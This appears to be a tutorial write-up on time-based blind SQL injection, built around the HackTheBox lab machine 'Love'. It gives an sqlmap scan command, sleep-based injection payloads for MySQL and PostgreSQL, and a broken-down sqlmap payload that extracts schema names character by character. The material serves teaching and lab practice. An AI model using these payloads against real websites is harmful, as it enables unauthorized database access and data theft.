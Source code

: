 ```yaml
---
description: >-
  Looking into a Time-based blind vulnerability using SQLMap and looking at the
  payload.
cover: broken-reference
coverY: 0
---
```


# Time-based blind SQL injection

An example of the vulnerability can found in https://app.hackthebox.com/machines/Love. Using SQLMap the vulnerability can easily found. This vulnerability was not the intended path for the box Love.

```bash
sqlmap -u http://10.10.10.239/index.php --batch --forms 
```

<figure><img src="broken-reference" alt=""><figcaption><p>use --technique=T flag for time based only.</p></figcaption></figure>

### What is a Time-Based blind injection.

First of all a SQL injection is a code injection technique used to exploit vulnerabilities in a websites database which in this case is MySQL. This can happen when there is no proper sanitization on the user input.

#### A SQL query

```sql
select * from logins where username like '%$searchInput'
```

If there is no sanitization we can add a single quote which will end the user input and after this we can write more SQL code.

#### For example, retrieving databases.

```sql
select * from logins where username like '%1'; show databases;'
```

### Blind injection

Blind injections are injections without receiving meaningful error messages or data output being returned. We have to use SQL logic to retrieve the output character by character.

### Time Based

A Time-based blind SQL Injection involves sending SQL queries that cause the SQL server to wait for a specified amount of time before responding. This delay for example 5 seconds indicates the query has been executed.

<pre class="language-sql"><code class="lang-sql"># Sleeps only if condition is true
<strong>test' or pg_sleep(5)--
</strong><strong>' or sleep(5)#
</strong>') or sleep(5)='
</code></pre>

### The payload

Because time-based injections retrieving data char by char doing it manually would be a tedious and time consuming task. This is the actual payload SQLMap is using to detect the vulnerability.

```sql
test' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
```

### Lets break this down

The sinqle ( ' ) it terminate the string and allows to inject a command

```sql
test'
```

`AND` clause is used in SQL to combine conditions,

```sql
AND
```

The subquery

```sql
(SELECT(SLEEP(5)))
```

* `SLEEP(5)` causes a 5 second delay
* `SELECT` statement executes SLEEP() which results in a 5 second delay

The outer query

```sql
SELECT * FROM (SELECT(SLEEP(5)))bAKL
```

* `SELECT *` will select all columns
* `FROM (SELECT(SLEEP(5)))` This nested structure ensures the SLEEP() function will execute
* bAKL is as an alias which is needed when using a subquery.

Closing the payload

```sql
AND 'vRxe'='vRxe'
```

* Is always TRUE like 1 =1
* Closes any quotes and ensures valid SQL syntax
* Bypass security measures

{% hint style="info" %}
Based on this payload SQLMap will retrieve the database char by char. `test' AND (SELECT 9684 FROM (SELECT(SLEEP(1-(IF(ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),2,1))>120,0,1)))))SpGB) AND 'vRxe'='vRxe`
{% endhint %}
